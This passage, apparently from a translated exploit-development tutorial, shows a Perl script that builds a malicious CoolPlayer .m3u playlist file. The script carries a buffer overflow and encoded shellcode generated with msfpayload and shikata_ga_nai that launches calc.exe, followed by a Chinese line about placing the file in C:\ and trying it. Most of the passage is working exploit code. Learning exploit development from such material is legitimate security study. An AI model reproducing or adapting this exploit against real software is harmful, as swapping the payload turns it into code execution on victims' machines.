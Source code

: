     # Calc.exe payload [size 227]
    # msfpayload windows/exec CMD=calc.exe R |
    # msfencode -e x86/shikata_ga_nai -t perl -c 1 -b '\x00\x0a\x0d\xff'
    my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
    "\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
    "\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
    "\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
    "\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
    "\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
    "\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
    "\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
    "\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
    "\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37" .
    "\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3" .
    "\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef" .
    "\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb" .
    "\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf" .
    "\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83" .
    "\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
    "\x9a\xca\xc0";
     
    my $sploit = $jmp.$junk.$eip.$nops.$shell; # build sploit portion of buffer
    my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer for size consistency
    my $buffer = $sploit.$fill; # build final buffer
     
    # write the exploit buffer to file
    my $file = "coolplayer.m3u";
    open(FILE, "&gt;$file");
    print FILE $buffer;
    close(FILE);
    print "Exploit file [" . $file . "] created\n";
    print "Buffer size: " . length($buffer) . "\n";

将产生的m3u文件放在C：\中，然后尝试...

![](../Images/WED/4.12.png)
